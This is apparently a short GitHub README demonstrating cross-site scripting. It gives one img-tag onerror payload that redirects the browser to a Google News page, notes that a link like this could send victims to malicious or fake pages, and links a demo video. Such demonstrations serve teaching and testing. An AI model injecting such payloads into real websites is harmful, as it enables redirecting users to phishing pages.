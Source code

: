 # xss
Just a simple example of xss on a vulnerable website, in the example below, 
when the link is accessed, it is possible to redirect the person to a malicious page or even a fake page.

<h2>Used payload:</h2>
<code>&lt;img src="x"onerror=window.location="https://news.google.com/topstories?hl=pt-PT&gl=PT&ceid=PT:pt-150"&gt;
</code>

<h2>Demonstration : </h2>

[![xss](http://img.youtube.com/vi/D3jo_nYqNTc/0.jpg)](http://www.youtube.com/watch?v=D3jo_nYqNTc "xss")





